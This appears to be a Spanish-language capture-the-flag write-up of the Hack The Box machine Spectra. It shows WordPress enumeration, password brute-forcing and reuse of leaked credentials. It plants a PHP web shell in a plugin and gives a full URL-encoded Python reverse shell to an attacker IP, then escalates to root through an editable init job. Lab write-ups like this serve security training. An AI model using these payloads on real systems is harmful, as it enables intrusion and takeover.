# Spectra



- nmap



- Whatweb
http://10.129.23.7 [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx/1.17.4], IP[10.129.23.7], nginx[1.17.4]

- Encontramos dominio spectra.htb

- Wfuzz
```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt http://spectra.htb/FUZZ/
```



- Relanzamos el wfuzz para los dos subdominios /testing /main pero no encontramos nada

- Lanzaremos un escaneo de subdominios
```bash
gobuster vhost -u http://permx.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain -t 200 -r
```

No parece haber nada

- En */testing* vemos un error, no parece mostrar nada

- Vemos un wordpress en http://spectra.htb/main/
Encontramos un comentario que habla sobre *grabatar*



- Posible vulnerabilidad conocida

- Gobuster
```bash
gobuster dir -u http://spectra.htb/main/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,js,txt,git -t 200
```



- Vemos un usuario **administrator** -> el wp-login.php nos dice si el usuario existe o no

- Utilizamos *wpscan*
```bash
wpscan --url http://spectra.htb/main
```

- WordPress version 5.4.2
- No se encuentran plugins parece

- Probamos fuerza bruta para el usuario encontrado
```bash
wpscan --url http://spectra.htb/main -U administrator -P /usr/share/wordlists/rockyou.txt --password-attack wp-login
```

- Nada a priori

- Buscamos plugins vulnerables
```bash
curl http://blocky.htb | grep 'wp-content' | cat -l html
```

No encuentra nada

- Buscamos vulnerabilidades conocidas para la versión de WordPress 5.4.2
- vemos un posible xss pero no consigo encontrar cómo explotarlo

- Intentamos enumerar usuarios
```bash
wpscan --url http://spectra.htb/main/ --enumerate u
```



Confirmamos lo que habíamos visto previamente

- Pruebo a hacer un gobuster en */testing*



No veo nada interesante
En index.php vemos un *Error establishing a database connection*

- Vemos en la sample page una descripción de la persona que pertenece al blog, como tenemos un usuario y nos da mucha info me huele a que podemos bruteforcear la contraseña con algún diccionario que creemos a partir de la info que nos da.



- Palabras
bike, actor, Los Angeles, Jack, piña coladas, rain, Gotham City, XYZ Doohickey Company, doohickeys, XYZ

- Usamos
```bash
cupp -i
```

y le pasamos a wps el diccionario creado
No encuentra passwd

- Si ponemos en el buscador http://spectra.htb/testing/, nos lista una serie de archivos



Encontramos en *wp-config.php.save* el contenido del wp-config comentado en el f12, donde vemos una pass de sql
devtest:devteam01 -> localhost
- Probamos en wp-login y por ssh y no parecen ser credenciales válidas

- En plugins vemos un posible plugin vulnerable **akismet**





- Pruebo con *WordPress Plugin Akismet - Multiple Cross-Site Scripting Vulnerabilities* de searchsploit pero no parece haber el archivo legacy.php dentro del plugin, por lo que falla

- Probamos a entrar con administrator:devteam01 y vemos que se reutilizan credenciales porque podemos acceder
administrator

- Una forma de ganar acceso es alterando el theme que viene en el wordpress, vamos a Appearance -> Theme Editor -> Twenty Twenty y vemos un archivo 404.php, por lo que podríamos editarlo para que cuando se muestre un error por ejemplo al escribir una ruta a un archivo que no existe, nos ejecute un comando
Añadimos
```php
system($_GET['cmd']);
```



No nos deja porque da un pete de conexión

- Probaremos por plugins. En *plugin-editor.php* probamos a añadir la línea de
```php
system($_GET['cmd']);
```

en el codigo de akismet.php
Se guarda correctamente si el plugin está desactivado

- Hacemos la llamada al parámetro desde la url
```bash
http://spectra.htb/main/wp-content/plugins/akismet/akismet.php?cmd=whoami
```



Tenemos RCE

- Intentamos ganar acceso con el onliner pero no le gusta a la máquina

- Si comprobamos si tiene python con
```bash
python -c 'print "Hola"'
```

Vemos que nos muestra "Hola" correctamente, por lo que iremos a revshells a intentar formar una shell
- Configuramos la revshell con la IP, puerto, Python, bash y urlEncode



```bash
export%20RHOST%3D%2210.10.16.179%22%3Bexport%20RPORT%3D443%3Bpython%20-c%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22bash%22%29%27
```

nginx

## Escalada

- El wordpress se encuentra en /usr/local/share/nginx/html/main
-
```bash
sudo -l
```

-> nada
-
```bash
find / -perm -4000 2>/dev/null
```

-> Nada
-
```bash
get_cap / -r
```

-> nada
- Usamos
```bash
find . 2>/dev/null
```

para ver a qué contenido podemos acceder
Vemos un archivo **key4.db** en nginx



- es un archivo utilizado por sqlite3



-
```bash
sqlite3 ./nginx/.pki/nssdb/key4.db
```

```
.tables
```

-> *metaData* y *nssPrivate*
```
select * from metaData;
```



Muestra una contraseña que no esta en texto claro por lo que no podemos hacer mucho

- Vamos a buscar archivos sensibles en */usr/local/share/nginx/conf*
- Vemos un archivo *nginx.conf* -> Nada
- En */html/main/wp-config.phjp* vemos credenciales



dev:development01

- Nos conectamos a mysql
```bash
mysql -u dev -p
```

mysql

- Vemos dos bases de datos *dev* y *information_schema*
- Existe una tabla *wp_users* pero solo tiene almacenada la password de **administrator** la cual ya conocemos de antes por lo que no es de mucha ayuda

- Vemos un archivo raro en /opt -> **autologin.conf.orig**



Comprueba en los directorios */mnt/stateful_partition/etc/autologin* y */etc/autologin*
si hay un archivo */passwd*

- Comprobamos si existe ese archivo
Existe el archivo **/etc/autologin/passwd** el cual contiene una contraseña
**SummerHereWeCome!!**

- Probaremos a logearnos con esa passwd para el usuario katie
katie

-
```bash
sudo -l
```



/sbin/initctl

- Buscamos privesc para *initctl*
```bash
cd /etc/init
sudo -u root /sbin/initctl list
```

Vemos un proceso test2 que está parado
Podríamos intentar inyectar un código que ejecute una bash privilegiada y restaurar el servicio para escalar privilegios

- Vemos que existen varios archivos testX.conf en /etc/init y que tenemos permisos para editarlos ya que estamos en el grupo *developers*



- Metermos un trozo de código



- Levantamos el servicio con
```bash
sudo /sbin/initctl start test2
```

-
```bash
/bin/bash -p
```



root
